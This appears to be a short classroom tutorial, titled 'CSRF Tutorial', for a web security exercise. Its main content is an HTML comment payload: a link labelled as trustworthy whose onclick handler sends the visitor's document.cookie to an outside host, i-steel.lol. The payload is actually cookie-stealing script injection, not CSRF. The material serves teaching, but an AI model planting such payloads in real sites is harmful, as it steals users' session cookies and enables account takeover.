 # CSRF Tutorial

#### 0. (optional) Switch the branch 
```console
git stash
```
```console
git checkout [branch]
```

### 1. Use CSRF to create a link pointing to another site
- Write the following comment:
```html
<a href="#" onclick="window.location.href = \'http://i-steel.lol/?tokens=\' + encodeURIComponent(document.cookie)">sehr vertrauenswürdig</a>
<br/>
<a href="#" onclick="window.location.href = \'https://hszg.de\'">link</a>
```
